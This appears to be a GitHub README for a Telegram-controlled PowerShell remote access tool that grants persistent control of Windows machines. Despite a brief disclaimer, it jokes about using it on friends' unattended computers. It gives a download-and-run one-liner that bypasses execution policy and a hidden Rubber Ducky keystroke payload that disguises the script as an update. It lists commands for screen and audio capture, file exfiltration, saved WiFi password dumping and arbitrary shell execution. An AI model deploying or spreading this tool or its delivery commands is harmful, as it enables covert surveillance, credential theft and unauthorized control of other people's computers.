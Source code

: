 ## ⚠️ DISCLAIMER

> [!WARNING]
> **This script is for educational purposes only. Do NOT use it on systems you do not own or have explicit permission to test. Misuse may be illegal and can have serious consequences.**

# Telegram-Controlled PowerShell Script

**Get persistent remote control access through Telegram commands.**
Don't use it when your friends are away from their computer 🤫
This script allows you to control a Windows system remotely through Telegram, offering various functionalities like taking screenshots, sending files, recording audio/video, locking or restarting the system, and more.

## 🛠 Prerequisites

* Windows 10 or newer
* PowerShell 5 or later (built-in)
* Internet connection
* [ffmpeg](https://ffmpeg.org/download.html) installed and in system PATH (for audio/video recording)
* A Telegram bot token (from [@BotFather](https://t.me/BotFather))
* Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

### 📥 How to Create a Telegram Bot

1. Open Telegram and search for `@BotFather`.
2. Start a conversation and type `/newbot` to create a new bot.
3. Follow the instructions to set a name and username for your bot.
4. After completion, you will receive a **bot token** which you'll use in the script.

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

### Powershell (Permanent fix)

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```

### Powershell (One-time fix for your session)

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```

### Powershell pipeline

```powershell
iwr 'https://example.com/urfile.ps1' -UseBasicParsing -OutFile $env:TEMP\prankware.ps1; powershell -ep bypass -File $env:TEMP\prankware.ps1
```

### Hidden PowerShell Ducky Script EXAMPLE
```txt
GUI r
DELAY 300
STRING powershell -WindowStyle Hidden -ep bypass -Command iwr 'https://example.com/urfile.ps1' -UseBasicParsing -OutFile $env:TEMP/update.ps1; powershell -ep bypass -File $env:TEMP/update.ps1
ENTER
```
---

## 📌 Available Commands

### System Control

* `/lock` → Locks the workstation.
* `/restart` → Restarts the computer.
* `/shutdown` → Shuts down the computer.
* `/notepad` → Opens Notepad.
* `/pcname` → Shows the computer name.
* `/ip` → Shows local and public IP addresses.
* `/screenshot` → Takes a screenshot and sends it to the chat.
* `/sendfile <path>` → Sends a file from the local disk.
* `/sendfolder <path>` → Sends a zipped folder.
* `/visit <url>` → Opens a URL in the default browser.
* `/screenshot`  →  Sends a screenshot.

### Navigation and File Operations

* `cd <path>` → Change directory.
* `cd` → Show current directory.
* `ls` or `dir` → List files/folders in current directory.
* `/delete <path>` → Delete a file or folder.
* `/rename <old> <new>` → Rename or move a file/folder.

### Monitoring & Processes

* `/processes` → List running processes.
* `/kill <pid>` → Kill process by PID.
* `/tasklist` → Top 25 processes by memory usage.
* `/taskkill <name>` → Kill processes by name.
* `/services` → List running services.

### Clipboard & System Info

* `/getclipboard` → Get text from clipboard.
* `/setclipboard <text>` → Set text to clipboard.
* `/sysinfo` → System details (CPU, RAM, OS, disk).
* `/wifi` → List saved WiFi networks + passwords.

### Other

* `/help` → Shows all commands.
* `/selfdestruct` → Removes persistence and deletes the script.
* `/cmd <command>` → Run CMD command.
* `/powershell <command>` → Run PowerShell command.

---


